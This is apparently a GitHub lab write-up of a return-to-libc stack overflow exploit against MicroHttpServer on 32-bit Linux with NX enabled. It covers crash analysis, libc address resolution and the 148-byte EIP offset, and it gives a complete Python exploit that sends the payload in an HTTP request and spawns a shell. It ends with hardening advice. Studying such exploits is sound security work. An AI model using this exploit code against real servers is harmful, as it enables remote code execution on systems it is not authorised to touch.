






# 🔓 MicroHttpServer – NX Bypass via Return-to-libc

> Stack Buffer Overflow exploitation with NX enabled using a classic **return-to-libc** technique.

---

## 📌 Overview

* **Target:** MicroHttpServer (C version)
* **Architecture:** x86 (32-bit)
* **Vulnerability:** Stack Buffer Overflow
* **Impact:** Remote / Local Code Execution
* **Protection Bypassed:** NX (Non-Executable Stack)
* **Technique Used:** Return-to-libc (ret2libc)

NX prevents execution of injected shellcode on the stack.
This exploit bypasses NX by redirecting execution flow to existing libc functions.

---

## 🧪 Environment

* **OS:** Linux (CEDP Lab)
* **Debugger:** GDB + GEF
* **Compiler Protections:** Minimal
* **libc:** `/usr/lib32/libc.so.6`

---

## 🛡️ Binary Protections

The first step was identifying the security mitigations enabled on the binary.



```
Canary   : ✘
NX       : ✔
PIE      : ✘
RELRO    : Partial
Fortify  : ✘
```

NX is enabled, meaning injected shellcode on the stack cannot be executed. However, the absence of PIE and stack canaries makes control-flow hijacking possible.

➡️ **Return-to-libc is the ideal approach**

## 🔍 Vulnerability Discovery

The server was tested with an oversized HTTP request to observe how it handles user-controlled input.



The application crashes while parsing the HTTP body, confirming the presence of a **stack-based buffer overflow** caused by insufficient bounds checking.

---

## 🧠 Crash Analysis

After triggering the crash, the binary was analyzed using GDB to inspect the call stack.



```
#0  __kernel_vsyscall()
#1  pop ebp
#2  select64()
#3  select()
#4  HTTPServerRun()
#5  main()
```

The crash confirms that user input overwrites data on the stack, allowing control over the saved return address (EIP).

---

## 🗺️ Memory Layout

To prepare a ret2libc attack, the memory layout of the process was inspected.



```
libc base address: 0xf7d7b000
```

The stack is non-executable, while the libc text section is executable. This makes libc functions valid targets for redirection of execution flow.

---

## 🎯 Exploitation Strategy (ret2libc)

Classic ret2libc call chain:

```
[ padding ]s
[ system() ]
[ exit() ]
[ "/bin/sh" ]
```

* `system("/bin/sh")` spawns a shell
* `exit()` ensures clean termination
* `/bin/sh` string is reused from libc

---

## 🔎 Resolving libc Addresses

With the libc base address known, required symbols were resolved inside GDB.



```gdb
print system → 0xf7dca8e0
print exit   → 0xf7db95b0
grep "/bin/sh" → 0xf7f37de8
```

Calculated offsets relative to the libc base:

```
system  offset = 0x4f8e0
exit    offset = 0x3e5b0
/bin/sh offset = 0x1bcde8
```

---

## 📏 Offset to EIP

The exact offset to overwrite EIP:

```
148 bytes
```

---

## 🧪 Final Exploit Code

The exploit payload was constructed using the calculated offsets and a padding of 148 bytes to reach the saved return address.


```python
import socket
import struct

libc_addr = 0xf7d7b000  # libc base address

# Offsets
sys_off   = 0x4f8e0
exit_off  = 0x3e5b0
binsh_off = 0x1bcde8

junk = b"A" * 148

eip_sys   = struct.pack("<I", libc_addr + sys_off)
exit_addr = struct.pack("<I", libc_addr + exit_off)
binsh     = struct.pack("<I", libc_addr + binsh_off)

payload = junk + eip_sys + exit_addr + binsh

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
sock.connect(("localhost", 8081))

sock.send(
    b"GET " + payload + b" HTTP/1.1\r\n"
    b"Host: localhost\r\n\r\n"
)

sock.recv(4096)
sock.close()
```

---

## 🏴‍☠️ Exploitation Result



Successful shell execution:

```
$ id
uid=1000(no) gid=1000(no)

$ whoami
no

$ ls
libc.so  nxmicrohttpserver
```

✅ **NX successfully bypassed using ret2libc**

---

## 📚 Key Takeaways

* NX blocks stack shellcode, not libc reuse
* ret2libc is reliable in non-PIE environments
* Static libc simplifies exploitation
* Lack of stack canaries makes exploitation trivial

---

## 🛡️ Defensive Recommendations

* Enable **ASLR + PIE**
* Enable **Stack Canaries**
* Use safe input handling for HTTP parsing
* Enable **Full RELRO**
* Harden builds with modern compiler flags

---


---

## ⚠️ Disclaimer

This exploit is for **educational and authorized lab environments only**.
Do not test against systems you do not own or have explicit permission to assess.

---

Happy hacking 🚀

## Author: SUB-ZERO

## [LinkedIn:](https://www.linkedin.com/in/salman-hussein-3615852a4/)
